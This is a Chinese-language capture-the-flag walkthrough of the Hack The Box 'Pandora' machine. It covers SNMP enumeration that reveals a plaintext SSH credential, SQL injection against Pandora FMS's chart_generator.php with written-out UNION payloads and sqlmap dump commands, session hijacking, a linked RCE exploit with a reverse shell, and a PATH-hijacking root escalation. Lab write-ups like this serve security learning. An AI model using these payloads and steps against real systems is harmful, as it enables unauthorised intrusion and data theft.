# namp


# 161端口

```
snmpwalk -v 2c -c public 9.0.0.1 所有系统信息都获取
```


```
daniel:HotelBabylon23
```

其中找到一个用户名和密码,ssh连接成功，目录下没什么有用的东西


`home`目录下有个`matt`用户，该用户下有`user.txt`，`daniel`无权限读取


# 80端口



assets目录下也没有什么有用的信息

在var/www/下有html和pandora，html下就是panda.htb的源码，应该还有另外一个网站


得到网站的中间件为apache，去看看apache的配置文件


apache目录在`/etc/apache2/`，`sites-enable`下有两个配置文件，另一个的域名为`pandora.panda.htb`用户是matt


但是`pandora.panda.htb`只在本地监听,ssh连接的时候，将靶机的80端口转发到本机的9002,访问本机的9002即可访问到靶机的80端口

```
ssh daniel@10.10.11.136 -L 9002:localhost:80
```


最下方有版本号，该版本存在多个漏洞，先利用SQL注入[CVE-2021-32099_SQLi](https://github.com/l3eol3eo/CVE-2021-32099_SQLi?tab=readme-ov-file)得到账号密码登录


当`session_id=1'`单引号闭合时会报sql错误



可以手注也可以使用sqlmap

## sql注入

### 手注

#### 判断列数

```http
##判断列数
http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1%27%20group%20%20by%203--%20


```

四列时报错，三列时正常回显

#### 数据库名

```http
##数据库名
http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1' UNION SELECT 1,extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3 --+
```


#### 表名

```http
##表名
http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1' UNION SELECT 1,extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3 --+
```


```
tvisual_console_elements_cac
```

```http
##默认只能返回 32 个字符，使用 substring 解决这个问题，返回第 25 个字符再往后显示 30 个字符
http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1' UNION SELECT 1,extractvalue(1,concat(0x7e,(select substring(group_concat(table_name),1,30) from information_schema.tables where table_schema=database()))),3 --+
```


```
_cache,tservice_element,tuser_

拼接第一次注入的内容
tvisual_console_elements_cache,tservice_element,tuser_

反复往后读即可
```

### sqlmap

#### 数据库名

```shell
sqlmap -u "http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1" --batch --dbs 
```


#### 表名

```shell
sqlmap -u "http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1" --batch -D pandora --tables	
```

```
|————————————————————————————————————|
| taddress_agent                     |
| tagent_access                      |
| tagent_custom_data                 |
| tagent_custom_fields               |
| tagent_custom_fields_filter        |
| tagent_module_inventory            |
| tagent_module_log                  |
| tagent_repository                  |
| tagent_secondary_group             |
| tagente                            |
| tagente_datos                      |
| tagente_datos_inc                  |
| tagente_datos_inventory            |
| tagente_datos_log4x                |
| tagente_datos_string               |
| tagente_estado                     |
| tagente_modulo                     |
| talert_actions                     |
| talert_commands                    |
| talert_snmp                        |
| talert_snmp_action                 |
| talert_special_days                |
| talert_template_module_actions     |
| talert_template_modules            |
| talert_templates                   |
| tattachment                        |
| tautoconfig                        |
| tautoconfig_actions                |
| tautoconfig_rules                  |
| tcategory                          |
| tcluster                           |
| tcluster_agent                     |
| tcluster_item                      |
| tcollection                        |
| tconfig                            |
| tconfig_os                         |
| tcontainer                         |
| tcontainer_item                    |
| tcredential_store                  |
| tdashboard                         |
| tdatabase                          |
| tdeployment_hosts                  |
| tevent_alert                       |
| tevent_alert_action                |
| tevent_custom_field                |
| tevent_extended                    |
| tevent_filter                      |
| tevent_response                    |
| tevent_rule                        |
| tevento                            |
| textension_translate_string        |
| tfiles_repo                        |
| tfiles_repo_group                  |
| tgis_data_history                  |
| tgis_data_status                   |
| tgis_map                           |
| tgis_map_connection                |
| tgis_map_has_tgis_map_con          |
| tgis_map_layer                     |
| tgis_map_layer_groups              |
| tgis_map_layer_has_tagente         |
| tgraph                             |
| tgraph_source                      |
| tgraph_source_template             |
| tgraph_template                    |
| tgroup_stat                        |
| tgrupo                             |
| tincidencia                        |
| titem                              |
| tlanguage                          |
| tlayout                            |
| tlayout_data                       |
| tlayout_template                   |
| tlayout_template_data              |
| tlink                              |
| tlocal_component                   |
| tlog_graph_models                  |
| tmap                               |
| tmensajes                          |
| tmetaconsole_agent                 |
| tmetaconsole_agent_secondary_group |
| tmetaconsole_event                 |
| tmetaconsole_event_history         |
| tmetaconsole_setup                 |
| tmigration_module_queue            |
| tmigration_queue                   |
| tmodule                            |
| tmodule_group                      |
| tmodule_inventory                  |
| tmodule_relationship               |
| tmodule_synth                      |
| tnetflow_filter                    |
| tnetflow_report                    |
| tnetflow_report_content            |
| tnetwork_component                 |
| tnetwork_component_group           |
| tnetwork_map                       |
| tnetwork_matrix                    |
| tnetwork_profile                   |
| tnetwork_profile_component         |
| tnetworkmap_ent_rel_nodes          |
| tnetworkmap_enterprise             |
| tnetworkmap_enterprise_nodes       |
| tnews                              |
| tnota                              |
| tnotification_group                |
| tnotification_source               |
| tnotification_source_group         |
| tnotification_source_group_user    |
| tnotification_source_user          |
| tnotification_user                 |
| torigen                            |
| tpassword_history                  |
| tperfil                            |
| tphase                             |
| tplanned_downtime                  |
| tplanned_downtime_agents           |
| tplanned_downtime_modules          |
| tplugin                            |
| tpolicies                          |
| tpolicy_agents                     |
| tpolicy_alerts                     |
| tpolicy_alerts_actions             |
| tpolicy_collections                |
| tpolicy_groups                     |
| tpolicy_modules                    |
| tpolicy_modules_inventory          |
| tpolicy_plugins                    |
| tpolicy_queue                      |
| tprofile_view                      |
| tprovisioning                      |
| tprovisioning_rules                |
| trecon_script                      |
| trecon_task                        |
| trel_item                          |
| tremote_command                    |
| tremote_command_target             |
| treport                            |
| treport_content                    |
| treport_content_item               |
| treport_content_item_temp          |
| treport_content_sla_com_temp       |
| treport_content_sla_combined       |
| treport_content_template           |
| treport_custom_sql                 |
| treport_template                   |
| treset_pass                        |
| treset_pass_history                |
| tserver                            |
| tserver_export                     |
| tserver_export_data                |
| tservice                           |
| tservice_element                   |
| tsesion                            |
| tsesion_extended                   |
| tsessions_php                      |
| tskin                              |
| tsnmp_filter                       |
| ttag                               |
| ttag_module                        |
| ttag_policy_module                 |
| ttipo_modulo                       |
| ttransaction                       |
| ttrap                              |
| ttrap_custom_values                |
| tupdate                            |
| tupdate_journal                    |
| tupdate_package                    |
| tupdate_settings                   |
| tuser_double_auth                  |
| tuser_task                         |
| tuser_task_scheduled               |
| tusuario                           |
| tusuario_perfil                    |
| tvisual_console_elements_cache     |
| twidget                            |
| twidget_dashboard                  |
|————————————————————————————————————|
```

#### 列名

```shell
sqlmap -u "http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1" --batch -D pandora -T tpassword_history --columns  --threads 10

```



拿到密码之后破解不了，还有个session表，尝试替换session登录

```shell
sqlmap -u "http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1" --batch -D pandora -T tsessions_php --columns --dump  --threads 10
```



#### 数据

```shell
sqlmap -u "http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1" --batch -D pandora -T tpassword_history -C "id_pass,id_user,password" --dump  --threads 10

```



```shell
sqlmap -u "http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1" --batch -D pandora -T tsessions_php -C "data,id_session" --threads 10  --dump --where "data<>''"
```



登录时将session替换为matt的session即可登录到matt用户的后台



## 远程代码执行

[CVE-2020-13851 Pandora FMS 7.44](https://github.com/hadrian3689/pandorafms_7.44)



使用该exp可以直接反弹matt的shell



# 提权

查看运用suid权限的文件，有个pandora的备份程序



以FMC反弹过来的matt用户的shell没有权限运行sudo和suid权限的文件，是因为apache配置文件中给matt用户定义在了matt组中



写入自己公钥使用私钥去连接





运行pandora_backup，使用tar来对文件内容进行压缩



并且suid权限的文件中没有`tar`那就说明tar是从环境变量中去读取，那么写一个恶意的`tar`让`pandora_backup`来运行达到提权的目的



然后运行pandora_backup监听4444端口即可得到root的shell

